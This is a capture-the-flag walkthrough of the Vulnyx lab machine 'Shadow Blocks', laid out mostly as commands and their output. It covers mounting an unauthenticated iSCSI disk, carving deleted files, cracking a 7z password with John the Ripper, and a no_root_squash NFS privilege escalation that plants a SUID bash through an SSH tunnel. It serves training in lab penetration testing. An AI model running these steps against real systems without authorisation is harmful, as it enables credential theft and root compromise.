






Writeup of the **Shadow Blocks** machine ([Vulnyx](https://vulnyx.com/)): iSCSI exploitation and disk data recovery to leak credentials, and unprotected NFS for privilege escalation.

## Table of Contents

## Enumeration



The first step in any CTF is to identify the attack surface. We run a port scan against the target IP.

```bash
$ nmap -p- -Pn 192.168.1.133                      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-02-28 18:59 CET
Nmap scan report for 192.168.1.133
Host is up (0.00068s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
3260/tcp open  iscsi
MAC Address: 08:00:27:54:16:99 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 108.76 seconds
```

**Command explanation:**
- `-p-`: Scans **all TCP ports** (1-65535), not just the common ones. Essential in CTFs to avoid missing hidden vectors.
- `-Pn`: **Skips host discovery by ping**. Many machines block ICMP; with `-Pn` nmap assumes the host is up and goes straight to port scanning. Without it, we might get "Host seems down".
- `192.168.1.133`: Target IP of the machine on the virtual network.

**Result:** Two open ports — **22 (SSH)** for remote access and **3260 (iSCSI)**, a network storage protocol. Port 3260 is the standard for iSCSI (Internet Small Computer System Interface).

Next we refine the scan on those ports to get versions and scripts:

```bash
$ nmap -p22,3260 -sVC -Pn -n 192.168.1.133
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-02-28 19:04 CET
Nmap scan report for 192.168.1.133
Host is up (0.00038s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 10.0p2 Debian 7 (protocol 2.0)
3260/tcp open  iscsi   Synology DSM iSCSI
| iscsi-info: 
|   iqn.2026-02.nyx.shadowblocks:storage.disk1: 
|     Address: 192.168.1.133:3260,1
|_    Authentication: NOT required
MAC Address: 08:00:27:54:16:99 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.27 seconds

```

**Command explanation:**
- `-p22,3260`: Scans only the detected open ports.
- `-sV`: **Version detection** — identifies the software and version (OpenSSH 10.0p2, Synology DSM iSCSI).
- `-sC`: Runs nmap **default scripts**; among them `iscsi-info`, which queries iSCSI targets and reveals sensitive configuration.
- `-n`: Disables reverse DNS resolution for faster runs.
- `-Pn`: Skips ping discovery.

**Key finding:** The `iscsi-info` script discovers that the iSCSI target **does not require authentication** (`Authentication: NOT required`) and exposes the IQN: `iqn.2026-02.nyx.shadowblocks:storage.disk1`. Anyone on the network can connect to the disk.

### iSCSI Service

iSCSI exposes hard drives over TCP/IP. Clients connect to a "target" identified by an IQN and can mount the disk as a block device. With authentication disabled, anyone can access it.

We confirm and manage the connection with `iscsiadm`:

```bash
$ sudo iscsiadm -m discovery -t sendtargets -p 192.168.1.133
192.168.1.133:3260,1 iqn.2026-02.nyx.shadowblocks:storage.disk1
```

**Explanation:** `-m discovery` explores available targets; `-t sendtargets` uses the standard iSCSI SendTargets method; `-p` specifies the portal (IP:port). The result confirms the IQN and address.

We log in to attach the disk as a local device:

```bash
sudo iscsiadm -m node --targetname="iqn.2026-02.nyx.shadowblocks:storage.disk1" -p 192.168.1.133:3260 --login
```

**Explanation:** `-m node` manages the session with the target; `--targetname` identifies the disk; `--login` establishes the connection. The kernel assigns a block device (usually the next available after `/dev/sda`).

After login, the disk appears as a local device. With `fdisk -l` or `lsblk` we check:

```bash
$ sudo fdisk -l
Disk /dev/sda: 80,09 GiB, 86000000000 bytes, 167968750 sectors
Disk model: VBOX HARDDISK   
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x6c9b1d52

Device     Boot Start       End Sectors  Size Id Type
/dev/sda1  *     2048 167968749 167966702 80,1G 83 Linux


Disk /dev/sdb: 150 MiB, 157286400 bytes, 307200 sectors
Disk model: shadowblocks  
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 8388608 bytes
Disklabel type: dos
Disk identifier: 0x2566cb3e

Device     Boot Start    End Sectors  Size Id Type
/dev/sdb1        2048 307199  305152  149M 83 Linux

```

We see `/dev/sdb` (model "shadowblocks", 150 MiB) with partition `/dev/sdb1` (type 83 = Linux). We mount and explore:

```bash
sudo mkdir /mnt/iscsi
sudo mount /dev/sdb1 /mnt/iscsi
find /mnt/iscsi -ls
```

**Explanation:**
- `mkdir /mnt/iscsi`: Mount point where the filesystem will be exposed.
- `mount /dev/sdb1 /mnt/iscsi`: Attaches the partition to the directory; we can then access files visible on the filesystem.
- `find ... -ls`: Recursive list of files with permissions, owner, and size.

**Important:** We only see files that are still in the filesystem. Deleted files are no longer in the inode table, but their data may still reside in unreassigned sectors. That is why "normal" enumeration does not reveal credentials; we need forensic techniques.

## Credential Leakage

Deleted files do not vanish immediately: the system marks blocks as free, but the data remains on disk until overwritten. We can recover them through **file carving** on unallocated space or a forensic image.

**Process:**

1. **Unmount** — To work on raw sectors without kernel cache interference.
2. **Create forensic image** — Working on a copy avoids altering the original disk and follows forensics best practices.
3. **Recover with Photorec** — Scans sectors for known file headers and footers (signatures) to extract files even if they have no filesystem entry.

```bash
# Unmount to access raw sectors
sudo umount /mnt/iscsi
# Forensic image: we do not modify the original
sudo dd if=/dev/sdb1 of=iscsi.img bs=4M status=progress
# Recover files from freed space (file carving)
sudo photorec iscsi.img
```

In Photorec we select the disk


the whole disk space


the disk format


and then with the "C" key we choose where to save all recovered files.


Files are stored in `recup_dir.X/` folders. There are usually text files and 7z archives. Extracting a 7z will prompt for a password, so we need to crack it.

### Cracking 7z Files

`7z2john` extracts the password hash from the 7z file so John the Ripper can try passwords by brute force or dictionary. Use the correct 7z filename (it may vary depending on recovery).

```bash
7z2john recup_dir.1/f0018434.7z > hash
john --wordlist=/usr/share/wordlists/rockyou.txt ./hash
```

**Explanation:**
- `7z2john file.7z > hash`: Converts the 7z encrypted metadata to a format John understands. The hash includes the salt and AES parameters; John will try passwords until it finds the right one.
- `john --wordlist=rockyou.txt ./hash`: Tries each line of rockyou.txt as a password. rockyou.txt is a common dictionary of weak/reused passwords.

We get the password `donald`.

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt ./hash
Using default input encoding: UTF-8
Loaded 1 password hash (7z, 7-Zip archive encryption [SHA256 256/256 AVX2 8x AES])
Cost 1 (iteration count) is 524288 for all loaded hashes
Cost 2 (padding size) is 6 for all loaded hashes
Cost 3 (compression type) is 0 for all loaded hashes
Cost 4 (data length) is 122 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key to status
donald           (?)     
1g 0:00:00:04 DONE (2026-02-28 19:51) 0.2105g/s 215.5p/s 215.5c/s 215.5C/s marie1..bethany
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

We extract the 7z with password `donald`. The filename may differ from the one used for the hash (e.g. `f0018448.7z` if it contains `credentials.txt`).

```bash
7z e recup_dir.1/f0018448.7z
```

**Explanation:** `7z e` extracts the file contents (extract mode). It will ask for the password; entering `donald` will extract the files to the current directory.

Inside we find `credentials.txt`, the file that had been deleted from the disk and recovered by Photorec.

> **Note:** The password has been redacted so as not to make the machine easier for those who want to practice it.

```bash
$ cat credentials.txt 
ShadowBlocks Internal Access Credentials
=======================================

System: Primary Storage Node
Environment: Production
Access Level: Administrative

Username: lenam
Password: ********

Note:
This file is intended for temporary migration procedures only.
It must be deleted after use.
Last reviewed: 2026-02-15
```

We use these credentials to access the server via SSH (user `lenam`, password from the file):

```bash
ssh lenam@192.168.1.133
```

**Reason:** The credentials we found were for "migration" and were supposed to be deleted, but they remained in unwritten sectors of the iSCSI disk. By connecting we get a `lenam` user shell to continue the escalation.

## Privilege Escalation

With `lenam` privileges we check local ports (`netstat`, `ss`) or run tools like LinPEAS. This reveals the **NFS** service (ports 2049, 111 and other dynamic ones) with a dangerous configuration: `no_root_squash`.

**Note:** NFS ports (2049, 111, etc.) were not visible from outside in the initial nmap scan; they were only accessible locally on the victim machine. That is why we need the SSH tunnel to mount the export from our Kali.

**What is `no_root_squash`:** By default NFS "squashes" the client’s root user and maps it to `nobody` for security. With `no_root_squash`, the client’s root keeps UID 0 on the server. If we can write to the export as root (from a machine we control) and then run what we wrote from the victim, we can escalate to root.

Reference: [NFS no_root_squash (HackTricks)](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe)

We check NFS exports on the server:

```bash
lenam@shadowblocks:~$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/srv/nfs *(rw,sync,fsid=0,no_subtree_check,no_root_squash,insecure)
```

**`/etc/exports` analysis:**
- `/srv/nfs`: Exported directory.
- `*`: Any client can mount.
- `rw`: Read and write.
- `no_root_squash`: **Vulnerable** — client root keeps UID 0.
- `insecure`: Allows connections from ports >1024 (required for the tunnel).

### Exploitation

NFS typically listens only on localhost or an internal interface. If we have no direct access, we use an **SSH tunnel** to forward the NFS port to our machine:

```bash
ssh -L 2049:127.0.0.1:2049 lenam@192.168.1.133
```

**Tunnel explanation:** `-L 2049:127.0.0.1:2049` forwards local port 2049 on our Kali to port 2049 on the target machine’s localhost. So when connecting to `127.0.0.1:2049` from Kali, traffic reaches the server’s NFS via SSH.

In **another terminal**, with the SSH tunnel open and running the commands as **root** on Kali (needed for NFS to interpret our actions as UID 0), we mount the export and copy a bash with SUID bit:

```bash
mkdir -p /mnt/nfs
mount -t nfs -o vers=4 127.0.0.1:/ /mnt/nfs
cp /bin/bash /mnt/nfs/bashroot
chmod u+s /mnt/nfs/bashroot
```

**Why it works:**
1. `mount ... 127.0.0.1:/`: We mount as root on our Kali; thanks to the tunnel the server’s NFS receives the request.
2. `no_root_squash` causes our root operations on the share to be reflected as UID 0 on the server.
3. `cp /bin/bash` and `chmod u+s`: We copy the binary and set the SUID bit. On the server the file ends up owned by **root** with SUID.
4. When running `/srv/nfs/bashroot -p` as `lenam`, the kernel sees the SUID bit and runs the process as the file owner (root). The `-p` flag prevents bash from dropping privileges when invoked with SUID.

In the SSH session as `lenam`:

```bash
/srv/nfs/bashroot -p
```

We get a shell with UID 0 (root).

We can read the flags with:

```bash
cat /home/lenam/user.txt   # After obtaining access as lenam
cat /root/root.txt         # After escalating to root
```

## Conclusions

Shadow Blocks combines several techniques: unauthenticated iSCSI storage access, forensic recovery of deleted files, password cracking, and misconfigured NFS exploitation. The "temporary" credentials were never securely deleted (deleted without overwriting), and NFS with `no_root_squash` allowed escalating from user to root using a SUID binary placed via SSH tunnel.

**Key points:**
- Unauthenticated iSCSI exposes disks to the entire network.
- Deleted files can be recovered if their sectors have not been overwritten.
- Weak passwords (dictionary) remain a common vector.
- NFS with `no_root_squash` allows privilege escalation if an attacker with access (in this case, lenam via SSH tunnel) can mount the export as root and place a SUID binary.

## References

- [3260 - Pentesting iSCSI - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/3260-pentesting-iscsi)
- [2049 - Pentesting NFS Service - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting)
- [iSCSI - Linux man page (open-iscsi)](https://linux.die.net/man/8/iscsiadm)
- [NFS - exports(5) - Linux man page](https://man7.org/linux/man-pages/man5/exports.5.html)
- [dd(1) - Linux man page](https://man7.org/linux/man-pages/man1/dd.1.html)
- [mount.nfs(8) - Linux man page](https://man7.org/linux/man-pages/man8/mount.nfs.8.html)
- [TestDisk / PhotoRec - Official documentation](https://www.cgsecurity.org/wiki/PhotoRec)

